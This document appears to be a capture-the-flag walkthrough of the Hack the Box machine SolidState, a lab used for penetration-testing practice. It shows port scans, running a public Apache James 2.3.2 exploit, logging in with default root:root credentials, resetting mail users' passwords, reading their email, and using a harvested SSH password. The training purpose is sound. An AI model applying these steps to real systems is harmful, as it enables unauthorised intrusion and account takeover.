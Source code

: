 # Hack the Box - SolidState

```CSS
Machine IP: 10.10.10.51 - Linux
Difficulty: Medium
Category: OSCP Preparation
Vulnerabilities:
  - 
```

# Reconnaissance
  - Scan for open TCP ports on target machine.
  - Perform service and version detection of open ports.

## Port Scan
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.51 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.51
Host is up (0.18s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/7%OT=22%CT=1%CU=37112%PV=Y%DS=2%DC=I%G=Y%TM=6457A8C8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.67 seconds
```

## Service and Version Detection
```CSS
▶ nmap -sC -sV -p 22,25,80,110,119,4555 10.10.10.51 -oN services.nmap

Nmap scan report for 10.10.10.51
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.24 [10.10.14.24])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=5/7%Time=6457C059%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPle
SF:ase\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswor
SF:d:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.27 seconds
```

![image](https://user-images.githubusercontent.com/83878909/236687327-996643f3-8f36-450d-8d69-aefc5ca035ff.png)

---

# Enumeration
## Port 22 - SSH
  - The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.

---

## Port 25 - SMTP
  - Service and Version: `James smtpd 2.3.2`
```CSS
▶ searchsploit james 2.3.2
```
![image](https://user-images.githubusercontent.com/83878909/236688076-9a3abaef-62ed-443e-96ad-1e902cd6a14b.png)

---

## Port 80 - HTTP
![image](https://user-images.githubusercontent.com/83878909/236688134-0d9eac62-a0d4-4172-b2e6-cade79213572.png)

### Content Discovery
  - Brute-force directories.
```CSS
▶ gobuster dir --url http://10.10.10.51 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236745375-9142a91b-f442-4716-a2d2-a6a2db5766df.png)

---

# Exploit

## Initial Foothold
  - Apache James Server 2.3.2 - Remote Command Execution using default credentials.
  - Execute the exploit.
  - Connect to the target using netcat.
  - Login using the credentials: `root:root`.

### Download Exploit
```CSS
▶ searchsploit -m linux/remote/35513.py
```

### Run Exploit
```CSS
▶ python2 35513.py 10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236746610-285d13e2-4f47-4622-a773-d2e1a743ac2f.png)

### Connect to Target
```CSS
▶ nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/83878909/236746370-6adb3b95-83e9-4ab4-b182-1f9eae2bd06f.png)

  - List all mail accounts using the command `listusers`.
![image](https://user-images.githubusercontent.com/83878909/236747526-8b0e75ab-02b4-4a01-9f49-e2ab4130bebd.png)

  - Change the password of the `mailadmin` user account using the command `setpassword`.
![image](https://user-images.githubusercontent.com/83878909/236747790-6eae3333-52cf-44a6-afa3-237bab43889f.png)

### Access User E-mail Account
  - Use `telnet` to access the email account of user `mailadmin`.
```
▶ telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/83878909/236748853-bb598a85-1114-41b9-b645-14389fc798d8.png)
  - No email were found.

### Inspect All User E-mail Accounts
  - Change the password of all user e-mail accounts.
  - Access all email accounts using telnet.
  - Check for interesting information by inspecting emails in all accounts.

#### Change Passwords
![image](https://user-images.githubusercontent.com/83878909/236750391-5ebf01b4-0eb4-4bbe-b757-cb9875eb12d4.png)

#### Check E-mails
```
RETR 1
```
  - User `john`.
![image](https://user-images.githubusercontent.com/83878909/236751189-78724c43-ea2d-4d66-bcb7-f46062a502e3.png)

  - User `mindy`.
```
RETR 2
```
![image](https://user-images.githubusercontent.com/83878909/236751675-ca0a8ff0-2899-4649-8d68-855893b0fbf5.png)
  - SSH Credentials: `mindy:P@55W0rd1!2@`

### SSH
```CSS
▶ ssh mindy@10.10.10.51
```
![image](https://user-images.githubusercontent.com/83878909/236756135-c2652272-d7e1-4eed-b8f3-3e40b2d98b21.png)

